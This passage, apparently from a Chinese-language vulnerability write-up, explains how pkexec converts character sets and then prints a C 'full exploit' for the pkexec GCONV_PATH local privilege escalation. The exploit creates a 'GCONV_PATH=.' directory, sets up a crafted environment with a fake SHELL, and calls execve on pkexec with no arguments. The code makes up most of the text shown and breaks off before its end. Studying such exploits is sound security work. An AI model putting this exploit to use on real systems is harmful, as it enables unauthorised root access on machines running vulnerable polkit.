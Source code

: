 ```c
int main(int argc, char *argv[])
{
    setlocale(LC_ALL, "C");

    printf("%s\n", nl_langinfo(CODESET));
}
```

* 則會輸出 `ANSI_X3.4-1968`
* 回過頭來，走到 `strdup_convert`，預設 charset 是 `UTF-8`，此函數換嘗試轉 charset 到前面取出的 charset `ANSI_X3.4-1968`
* 為了保證會轉 CODESET，可以在 exploit 加上設定 locale

# Full exploit code
* 最終的 exploit 長如下:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <errno.h>
#include <fcntl.h>
#include <langinfo.h>
#include <locale.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/syscall.h>

int main()
{
    struct stat st = {0};
    char* envp[] = {"yoyodiy",           // <Env value>
                    "PATH=GCONV_PATH=.", // PATH=<Env name>=.
                    "SHELL=/yoyo/sh",    // Trigger g_printerr
                    NULL};

    setlocale(LC_ALL, "C");

    printf("[*] Create GCONV_PATH=./yoyodiy\n");

    if (stat("GCONV_PATH=.", &st) == -1) {
        if (mkdir("GCONV_PATH=.", S_IRWXU | S_IRWXG | S_IRWXO) == -1) {
            printf("Cannot create directory: %s\n", strerror(errno));
            return 1;
        }
    }

    if (stat("GCONV_PATH=./yoyodiy", &st) == -1) {
        int fd = open("GCONV_PATH=./yoyodiy", O_WRONLY | O_APPEND | O_CREAT, 0755);
        if (fd == -1) {
            printf("Cannot create file: %s\n", strerror(errno));
            return 1;
        }
        close(fd);
    }

    printf("[*] GoGo!\n");

    // It will try to open <GCONV_PATH>/gconv-modules
    // --> ./<Env value>/gconv-modules

    // execve
    syscall(0x3b, "/usr/bin/pkexec", NULL, envp);
```